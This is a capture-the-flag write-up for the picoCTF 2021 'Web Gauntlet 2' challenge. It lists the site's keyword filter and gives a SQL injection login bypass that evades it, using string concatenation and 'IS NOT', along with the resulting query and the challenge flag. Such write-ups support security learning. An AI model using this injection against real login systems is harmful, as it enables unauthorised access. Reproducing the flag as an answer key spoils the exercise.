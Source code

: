 # Web Gauntlet 2

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:65261/](http://mercury.picoctf.net:65261/) Filter: [http://mercury.picoctf.net:65261/filter.php](http://mercury.picoctf.net:65261/filter.php)

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption><p><code>picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
